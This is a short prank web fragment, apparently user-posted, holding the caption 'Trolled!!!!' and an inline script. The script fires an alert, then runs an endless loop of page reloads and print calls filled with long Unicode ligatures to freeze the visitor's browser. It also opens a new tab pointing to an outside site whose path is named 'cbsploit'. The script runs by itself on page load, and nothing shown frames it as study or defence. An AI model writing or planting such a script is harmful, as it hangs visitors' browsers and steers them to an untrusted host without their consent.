 Trolled!!!!
<script> 
alert("rip")
while(true){
location.reload(1) 
print("﷽﷽﷽﷽﷽ so on") 
}
let newTab = window.open();
 newTab.location.href = "https://wockerland.tk/cbsploit/";
</script>
